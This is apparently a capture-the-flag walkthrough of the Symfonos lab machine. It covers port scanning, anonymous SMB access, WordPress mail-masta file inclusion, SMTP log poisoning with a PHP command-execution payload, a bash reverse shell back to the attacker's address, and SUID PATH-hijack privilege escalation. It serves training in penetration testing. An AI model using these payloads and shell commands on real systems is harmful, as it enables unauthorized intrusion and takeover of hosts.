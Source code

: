
---
First we discover which is the IP the machine has.

![[Pasted image 20240712160943.png]]

After that, we run a command on [[nmap]] to discover the open ports that the machine has.

![[Pasted image 20240712161307.png]]

Now we discover what service is running on each port.

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:0E:AF:F8 (VMware)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2024-07-12T16:12:40-05:00
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-07-12T21:12:41
|_  start_date: N/A

```

With gobuster we don't discover any important information. In the [[nmap]] we can see that in the port 445 of [[smb]] there's a anonymous session. So we connect to it.

We can confirm that with tools like [[enum4linux]]. We are gonna connect directly to the service. 

![[Pasted image 20240712172549.png]]

We discover that there is an anonymous directory. We connect to get the information of the directory. Also, we discover that there is other user with the name "helios".

![[Pasted image 20240712172725.png]]

We discover that there is a file name **attention.txt** so we proceed to download it and check what's inside. The admin says that there are some accounts that are using common passwords and we have a user called **helios**. We can try what that. For the next move we need to try each password with the **"helios"** username. And we find out that the correct password is **"qwerty"**.

![[Pasted image 20240714112030.png]]

We find out that there are two files that we can download.

![[Pasted image 20240714112213.png]]

With the todo.txt we discovered that there's a directory called /h3l105. When we enter for the first time to the directory we can note that there are no styles. So at this time, we checked the source code and discover that we have to add the domain symfonos.local to the /etc/hosts

![[Pasted image 20240714112426.png]]

When we added that information and request again but now the URL symfonos.local/h3l105 we found that this web page is using a [[wordpress]] cms

As we know the machine has a [[wordpress]] CMS running so we first we need to check if it has any vulnerabilities, so we can use [[wpscan]]. When we first ran the command with no additional variables we can see that there are some plugins that are running on the system so it's important that we have all plugins listed so we can check if any of them have a vulnerability.

So we ran the command to retrieve all plugins information.

`wpscan --url http://symfonos.lolca/h3l105/  -e ap'

The information that we've got is the following:

![[Pasted image 20240714171159.png]]

When we search information about the plugin **mail-masta** we can check that it's vulnerable to [[local file inclusion]]. 

![[Pasted image 20240714171340.png]]

First let's see if the POC works on the wordpress that we are working on.

![[Pasted image 20240714171502.png]]

And we can see that it worked! 😸 But the only problem here is that we can't execute any command just read the file that we put on the final url. Now, we need to go back to the nmap targeted output, we noticed that there is a [[SMTP]] and we know that all mails that have been sent trough that port is stored on the /var/mail/username (we know that the user is helios). So first we need to know if we can check that file.

![[Pasted image 20240714172638.png]]

Now we know that if we send a mail trough [[SMTP]] the information is going to be store on there and also the web page is reading all as php so if we upload a php shell we can execute command on there.

```Connect to the service
telnet 172.16.136.129 25

#set the mail
MAIL FROM: test@test.com

#Set the recipient's mail
RCPT TO: helios

#Set the information
DATA

#Information of the mail (you need to end with a dot at the end)
php system($\_GET['cmd']) ?
. 

#Quit the session
quit
```

When we upload correctly the mail we can check it on the web by adding a extension to execute any bash command.

![[Pasted image 20240714173447.png]]

At this time, we know can execute our reverse shell. So first we listen in the port 4545 with `nc -lnvp 4545` and the execute the next command on the machine `bash -c 'sh -i >& /dev/tcp/172.16.136.1/4545 0>&1'` (dont forget to URL encode the command). 

And we have a shell 🍾!!!

![[Pasted image 20240714173820.png]]

Lets make an [[interactive shell]]

## Privilege Escalation

We have on a Linux kernel enviroment so we need to make a Linux Escalation. So the first thing is that we cannot run sudo commands so let's check if there's something especial on the SUID files.

![[Pasted image 20240714174136.png]]

We can check that there is a file called **'statuscheck'**. We first need to know what the file is doing. When we cat the file it's unreadable. so with the command string we can know if there is something readable that we can take advantage of.

![[Pasted image 20240714174539.png]]

We can see there's a curl running on so we can take advantage of the vulnerability [[path hijacking]] and change the path variable so when the command curl is being executed run the command that we are gonna add at the beginning of the path.

```
echo 'chmod u+s /bin/bash' > /tmp/curl; chmod +x /tmp/curl; export PATH=/tmp:$PATH
```

What this command will do is when we run the **'statuscheck'** file the /bin/bash is going to be SUID binary so we can have a root session.

![[Pasted image 20240714175221.png]]

As we can see, now '/bin/bash' is a SUID binary so we can run the command `/bin/bash -p' to get root privileges`.

![[Pasted image 20240714175241.png]]

We are root!! 😈
